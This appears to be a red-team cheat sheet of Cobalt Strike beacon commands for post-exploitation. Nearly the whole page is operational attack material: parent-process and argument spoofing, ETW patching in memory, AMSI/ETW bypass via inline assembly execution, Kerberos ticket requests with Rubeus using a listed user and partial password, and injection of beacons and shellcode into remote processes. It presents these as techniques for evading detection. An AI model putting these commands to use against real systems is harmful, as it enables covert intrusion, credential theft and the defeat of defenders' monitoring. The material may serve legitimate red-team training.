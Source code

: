 
### CS cheat sheet

```bash copy 
# Inject opst-ex capability into another process
beacon> spawnto x64 %windir%\\sysnative\\dllhost.exe

# ProcessID parent spoofing PPID, Can be combined with spawnto to blend in, here we're spoofing the internet explorer as a parent, and we'll spawn the post-ex cap into another iexplorer so that It looks like just another tab under the browser process
beacon> ppid 
beacon> spawnto x64 c:\Program Files\Internet Explorer\iexplorer.exe


# Command line argument spoofing, use any fake arguments after argue powershell and It'll be spoofed in any powershell command we run next
beacon> argue powershell -c "Invoke-WebRequest -Uri 'https://catfact.ninja/fact' -UseBasicParsing | Select-Object -ExpandProperty 'Content' | ConvertFrom-Json | Select-Object -ExpandProperty fact" 
beacon> powershell any_command 

# Bypass network traffic analysis by injecting into processes that are expected to send the same kind of traffic that we're sending, for ex: 
beacon> spawnto x64 %windir%\sysnative\gpresult.exe
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --computers
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:bturner /password:xJ*G

# Bypass Image load events to run powershell commands
beacon> spawnto x64 %windir%\sysnative\msiexec.exe

# Bypass ETW by patching it in memory, powerpick also supports this in-memory patching technique
beacon> execute-assembly "PATCHES: ntdll.dll,EtwEventWrite,0,C3 ntdll.dll,EtwEventWrite,1,00" C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe
# We can make an alias in the profile for this  long command -- look profile config
execute-assembly-patched C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe

# Execute post-ex BOFs within the beacon process, first we have to load the CNA of C:\Tools\InlineExecute-Assembly
# change app-domain and pipename to  any other values
beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe --assemblyargs klist --amsi --etw --appdomain SharedDomain --pipe dotnet-diagnostic-1337

# Injecting another beacon into a remote process
beacon> inject 5465 x64

# Injecting a post-ex cap into a remote process
beacon> shinject 7696 x64 C:\payloads\payload.bin

# Spawn a new process and injecting the post-ex cap payload into it
# This is more stable and we're not afraid of crashing a real running process causing any harm.
beacon> shspawn x64 C:\Users\VM_Windows\Documents\payload.bin

## Living without process injection
# Run a command under a parent in another desktop session.
beacon> runu 4654 notepad
```